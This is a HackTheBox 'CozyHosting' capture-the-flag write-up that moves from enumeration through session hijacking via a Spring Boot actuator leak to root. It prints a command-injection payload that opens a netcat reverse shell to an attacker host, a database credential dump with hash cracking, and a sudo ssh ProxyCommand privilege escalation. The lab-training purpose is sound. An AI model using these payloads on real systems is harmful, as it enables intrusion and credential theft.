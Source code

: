# HackTheBox - CozyHosting

I started with the usual portscan.

`nmap -p- -T4 -sV -sC <IP>`

![Screenshot0](./screenshots/0.png)

We can see an open SSH and web server.

We can also see from the nmap output that we have a domain `cozyhosting.htb`.

I entered this domain in the `/etc/hosts` files and looked at the website.

![Screenshot0](./screenshots/1.png)

And there was a login.

![Screenshot2](./screenshots/2.png)

I first tried it with SQL injections and noSQL injections which did not work.

In the meantime, I went through various enumerations and found something interesting using ffuf.

`ffuf -w raft-medium-words.txt -u http://cozyhosting.htb/FUZZ -ic`

![Screenshot3](./screenshots/3.png)

![Screenshot4](./screenshots/4.png)

Now I first read a bit about [Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators).

We have various endpoints here which we can enumerate.

The topic around __Spring Boot Actuators__ is quite large and there are various gaps and information leaks that can occur with Spring Boot endpoints.

I enumerated the endpoints and got a bit lost by using different techniques to get sensitive information and looking at and trying different exploit techniques.

However, none of this worked.

I had already had the key to success when enumerating the endpoints at the following endpoint `/actuator/sessions`.

![Screenshot5](./screenshots/5.png)

However, the simple solution only occurred to me when I looked at the `/login` request in burp.

![Screenshot6](./screenshots/6.png)

The values from the `/actuator/session` endpoint were session ID's!

So I intercepted a request to the `/admin` panel and entered the current session ID of __kanderson__ into the request in burp.

And I got to see an admin dashboard!

![Screenshot7](./screenshots/7.png)

The second step concerning the web application went much faster.

I tested the __Include Host__ function from the Admin Dashboard and took a closer look in burp.

![Screenshot8](./screenshots/8.png)

![Screenshot9](./screenshots/9.png)

I repeated the whole thing with different inputs, special characters and so on.

The application provided me with helpful error messages.

![Screenshot10](./screenshots/10.png)

OK, `.../bin/bash:...`, `...command not found...`, that sounds pretty much like __Command Injection__

I set the second parameter `username=`, started a netcat listener and quickly found a working RCE-POC:

```
host=localhost&username=kanderson;`busybox${IFS}nc${IFS}<ATTACKER_IP>${IFS}9009${IFS}-e${IFS}/bin/bash`#
```

![Screenshot11](./screenshots/11.png)

And got a reverse shell on my listener as __app__.

![Screenshot12](./screenshots/12.png)

## app -> josh

From here it went quite quickly and smoothly towards the root flag.

I downloaded the `.jar` application to my computer and unpacked it to have a look at the source code.

![Screenshot13](./screenshots/13.png)

I unpacked it and used `grep` to search for passwords in the web application code.

In the file `/BOOT-INF/classes/application.properties` I found a password to the __PostgreSQL__ database.

![Screenshot14](./screenshots/14.png)

I logged into the database.

`psql -h 127.0.0.1 -d cozyhosting -U postgres`

![Screenshot15](./screenshots/15.png)

List Databases: `\l`

![Screenshot16](./screenshots/16.png)

List all tables of current Database: `\dt`

![Screenshot17](./screenshots/17.png)

Get all users from table: `SELECT * FROM users;`

![Screenshot18](./screenshots/18.png)

OK, we see two `bcrypt` hashes which I cracked using __hashcat__.

![Screenshot19](./screenshots/19.png)

With the cracked password I logged into the system as user __josh__ and got the first flag.

![Screenshot20](./screenshots/20.png)

## josh -> root

The privilege escalation to root was done very quickly.

`sudo -l` shows us that as root user we are authorized to execute the binary `/usr/bin/ssh` at will.

A look at [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/) shows us how we can exploit this.

`sudo -u root /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

And the root flag was owned.

![Screenshot21](./screenshots/21.png)
